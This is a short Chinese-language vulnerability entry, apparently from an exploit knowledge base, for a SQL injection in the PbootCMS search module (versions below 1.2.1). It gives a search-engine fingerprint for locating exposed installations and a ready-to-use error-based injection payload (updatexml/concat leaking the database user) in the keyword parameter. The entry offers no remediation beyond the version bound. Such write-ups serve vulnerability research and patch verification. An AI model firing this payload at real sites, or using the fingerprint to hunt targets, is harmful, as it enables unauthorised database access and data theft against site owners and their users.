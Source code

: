 # PbootCMS search SQL注入漏洞

## 漏洞描述

PbootCMS 搜索模块存在SQL注入漏洞。通过漏洞可获取数据库敏感信息

## 漏洞影响

```
PbootCMS < 1.2.1
```

## 网络测绘 

```
app="PBOOTCMS"
```

## 漏洞复现

搜索框页面为

![](./images/202202170924485.png)Payload为

```plain
/index.php/Search/index?keyword=123&updatexml(1,concat(0x7e,user(),0x7e),1));%23=123](http://127.0.0.1/PbootCMS/index.php/Search/index?keyword=123&updatexml(1,concat(0x7e,user(),0x7e),1));%23=123)
```

![](./images/202202170924075.png)